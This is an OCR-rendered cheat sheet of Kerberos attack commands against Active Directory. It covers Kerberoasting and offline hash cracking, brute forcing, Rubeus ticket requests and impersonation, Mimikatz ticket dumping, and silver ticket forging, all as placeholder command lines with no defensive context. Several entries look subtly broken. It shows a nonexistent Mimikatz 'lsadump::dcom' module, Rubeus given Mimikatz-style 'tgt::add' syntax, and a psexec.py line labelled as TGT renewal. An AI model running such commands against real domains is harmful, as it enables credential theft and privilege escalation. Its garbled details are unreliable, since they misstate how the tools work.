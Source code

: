 
**Kerberoasting**: extract and crack service tickets to gain access to service accounts.
              

    # Extract all service tickets for offline cracking
    impacket-GetUserSPNs -dc-ip <dc_ip> -outputfile <tickets_file> <domain>/<username>:<password>
    
    # Crack the extracted tickets with John the Ripper or Hashcat
    john --wordlist=<wordlist> <tickets_file>
    # or
    hashcat -m 13100 <tickets_file> <wordlist>
    

**Kerberos Brute Forcing**: perform brute force attacks on Kerberos tickets.

    krb5-brute -d <domain> -t <target_ip> -u <username> -p <password_list>
    

**Kerberos Ticket Manipulation**: use tools to request, manipulate, and renew Kerberos
                tickets for privilege escalation or impersonation.

    # Renew a TGT (for Kerberos ticket manipulation)
    python3 psexec.py <domain>/<username>:<password>@<target_ip> -impersonate-user <target_user>
    
    # Perform Kerberos attacks with Rubeus
    rubeus.exe asktgt /user:<username> /rc4:<password>
    rubeus.exe tgtdeleg /user:<username> /rc4:<password>
    rubeus.exe s4u /user:<username> /rc4:<password> /impersonateuser:<target_user>
    

**Kerberos Ticket Dumping**: extract Kerberos tickets from memory for offline analysis.
              

    # Dump Kerberos tickets from memory using Mimikatz
    mimikatz "lsadump::dcom" "sekurlsa::tickets /export"
    

**Kerberos Pre-Authentication**: identify weak configurations that might allow attackers
                to perform brute force attacks.

    # Test for weak pre-authentication configurations
    python3 kerbrute.py -d <domain> -u <user_list> -p <password_list> -dc <dc_ip>
    

**Kerberos Silver Ticket Attacks**: forge high-value Kerberos tickets for access and
                privilege escalation.

    # Create a silver ticket with Rubeus
    rubeus.exe tgt::add /user:<username> /rc4:<password> /sid:<domain_sid> /domain:<domain>
    
